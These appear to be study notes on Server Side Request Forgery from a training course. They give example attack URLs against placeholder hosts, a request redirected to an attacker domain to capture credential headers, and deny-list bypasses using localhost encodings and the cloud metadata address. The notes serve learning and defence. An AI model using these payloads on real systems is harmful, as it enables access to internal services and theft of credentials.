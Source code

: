 # Server Side Request Forgery (SSRF) 
* Vulnerability that allows a malicious user to cause a web server to make an additional or edited HTTP request to the resource of the attacker's choosing.
## Types of SSRF
* There are two types of SSRF vulnerability:
  * Regular SSRF where data is returned to the attacker's screen.
  * Blind SSRF is where an SSRF occurs but no information is returned to the attacker's screen.
## What's the impact?
* A successful SSRF attack can result in:
  * Access to unauthorised areas.
  * Access to customer/organisational data.
  * Ability to Scale to internal networks.
  * Reveal authentication tokens/credentials.
## SSRF Examples
### Example 1 - Complete Control of Request
1. Expected request `http://website.thm/stock?url=http://api/stock/item?id=123`.
1. Attacker requests `http://website.thm/stock?url=http://api.website.thm/api/user`.
2. Website requests `http://api.website.thm/api/user`.
3. API server (api.website.thm) returns user data to the website instead of stock information.
4. Website (website.thm) returns user data to attacker.
### Example 2 - Directory Traversal
* The attacker can still reach the `/api/user` page with only having control over the path by utilising directory traversal.
1. Expected request `http://website.thm/stock?url=/item?id=123`.
1. Attacker requests `http://website.thm/stock?url=/../user`.
   * When `website.thm` receives `../` this is a message to move up a directory.
   * This removes the `/stock` portion of the request.
   * Turns the final request into `/api/user`.
3. Website requests `http://api.website.thm/api/stock/../user`.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.
### Example 3 - Subdomain Control
* When the attacker can control the server's subdomain to which the request is made. 
1. Expected request `http://website.thm/stock?server=api&id=123`.
1. Attacker requests `http://website.thm/stock?server=api.website.thm/api/user&x=&id=123`.
   * Take note of the payload ending in `&x=` being used to stop the remaining path from being appended to the end of the attacker's URL.
   * This instead turns it into a parameter on the query string.
3. Website requests `http://api.website.thm/api/user?x=.website.thm/api/stock/item?id=123`.
4. API server (api.website.thm) returns user data to the website instead of stock information.
5. Website (website.thm) returns user data to attacker.
### Example 4 - Request a Server of the Attacker's Choice
1. Expected request `http://website.thm/stock?url=http://api/stock/item?id=123`.
1. Attacker requests `http://website.thm/stock?url=[http://api.website.thm/api/use](http://hacker-domain.thm/)r`.
2. Website requests data from `hacker-domain.thm` instead of `api.website.thm`.
   * Can capture request headers that are sent to the attacker's specified domain.
   * These headers could contain authentication credentials or API keys sent by `website.thm` that would normally authenticate to `api.website.thm`.
### Example 5 - Challenge
1. Expected request `https://website.thm/item/2?server=api`
   * URL that `website.thm` is requesting: `https://api.website.thm/api/item?id=2`
3. Change the address to force the web server to return data from `https://server.website.thm/flag?id=9`.
4. Attacker requests `https://website.thm/item/2?server=server.website.thm/flag?id=9&x=`
   * URL that `website.thm` is requesting: `https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2`.

## Finding an SSRF
* Potential SSRF vulnerabilities can be spotted in web applications in many different ways:
  * When a full URL is used in a parameter in the address bar:
    * `https://website.thm/form?server=http://server.website.thm/store`
  * A hidden field in a form:
    * `<input type="hidden" name="server" value="http://server.website.thm/store"?`
  * A partial URL such as just the hostname (`api`):
    * `https://website.thm/form?server=api`
  * Only the path of the URL (`forms/contact`):
    * `https://website.thm/form?dst=/forms/contact`
* Some of the examples are easier to exploit than others.
  * A lot of trial and error will be required to find a working payload.
* An external HTTP logging tool will need to be used to monitor requests if working with a blind SSRF where no output is reflected back:
  * `requestbin.com`.
  * Own HTTP server.
  * Burp Suite's Collaborator client.

## Defeating Common SSRF Defences
* More security savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. 
### Deny List
* All requests are accepted apart from resources specified in a list or matching a particular pattern.
* A Web Application may employ a deny list to protect assets from being accessed by the public while still allowing access to other location:
  * Sensitive endpoints.
  * IP addresses.
  * Domains s.
* A specific endpoint to restrict access is the localhost.
  * This may contain server performance data or further sensitive information.
  * `localhost` and `127.0.0.1` should appear on a deny list.
* Attackers can bypass a Deny List by using alternative localhost references such as:
  * `0`
  * `0.0.0.0`
  * `0000`
  * `127.1`
  * `127.*.*.*`
  * `2130706433`
  * `017700000001`
* A deny list can also be bypassed using subdomains that have a DNS record which resolves to the IP Address `127.0.0.1` such as `127.0.0.1.nip.io`.
* In a cloud environment, it is beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information.
  * An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address `169.254.169.254`.
### Allow List
* Where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with `https://website.thm`.
  * An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as `https://website.thm.attackers-domain.thm`.
  * The application logic would now allow this input and let an attacker control the internal HTTP request.
### Open Redirect
* If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect.
* An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.
  * E.g. the link `https://website.thm/link?url=https://tryhackme.com`.
  * This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes.
  * Imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with `https://website.thm/`.
    * An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.
